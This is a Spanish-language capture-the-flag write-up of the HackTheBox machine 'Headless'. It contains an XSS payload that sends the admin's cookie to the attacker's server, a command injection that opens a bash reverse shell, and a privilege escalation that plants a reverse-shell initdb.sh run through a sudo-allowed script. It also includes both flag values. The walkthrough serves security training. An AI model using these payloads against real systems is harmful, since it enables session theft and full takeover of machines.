 ```yaml
---
icon: flag
---
```


# Headless HackTheBox

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Puerto 5000

Cuando intentas hacer un ataque de XSS aparece lo siguiente...

```
Hacking Attempt Detected

Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.

Client Request Information:

Method: POST
URL: http://10.10.11.8:5000/support
Headers: Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.8:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 243
Origin: http://10.10.11.8:5000
Dnt: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
```

Sabiendo que es vulnerable al XSS, con BurpSuit enviamos una peticion en algunos de los parametros que aparecen en la petcicion en mi caso "Accept-Encoding" lo cambio por lo siguiente...

```shell
<script>img = new Image(); img.src = "http://<IP>/a.php?"+document.cookie;</script>
```

Estando a la escucha con nuestro python:

```shell
sudo python3 -m http.server 80
```

Y cuando enviemos la peticion, reciviremos...

```
10.10.11.8 - - [07/May/2024 21:25:22] code 404, message File not found
10.10.11.8 - - [07/May/2024 21:25:22] "GET /a.php?is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

Por lo que tendremos su Cookie, ya que lo que le enviamos el lo envia por lo que se captura la cookie en ese momento y nosotros estando a la escucha lo capturamos...

### gobuster

```shell
gobuster dir -u <IP> -w <WORDLIST> -t 200
```

Te descubre "/dashboard" y si nos metemos hay con la cookie que tenemos, nos aparecera un panel visible...

Por lo que se ve envia una peticion al servidor por lo que se puede ejecutar comandos de alguna manera, si nos vamos al BurpSuit y capturamos la peticion de la pagina, donde aparece la fecha, podemos enlazarlo con otro comando, para ello nos haremos una "reverse shell"

```shell
date=2023-09-02; bash -c 'sh+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261'
```

```shell
nc -lvnp <PORT>
```

Y entrariamos como el usuario "dvir"

En la Home del propio usuario encontraremos la primera flag...

> user.txt (flag1)

```
46efac2d90e74839f9b61fdf92745f27
```

Para tener una shell sanitizada haremos lo siguiente...

Hacer una pseudoconsola:

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si haces `sudo -l` veras que puedes hacer como sudo sin contraseña el siguiente binario:

```shell
/usr/bin/syscheck
```

Lo unico que hace este binario es dar informacion del sistema en pequeña medida, pero si intentamos leer el binario veremos lo siguiente...

```
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Veremos que hay un archivo llamado `initdb.sh` que si se encuentra se ejecuta donde ejecutes el binario, al no existir el archivo lo creamos y dentro insertaremos lo siguiente...

```shell
sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Y estando a la escucha:

```shell
nc -lvnp <PORT>
```

Ese archivo lo llevamos a /tmp/ y dentro del mismo ejecutamos el binario como sudo para que asi inicie el .sh y nos mande una shell autenticada como root

Una vez siendo root veremos la flag...

> root.txt (flag2)

```
578b3f9666b677f815aa2c0a8f5dfe41
```
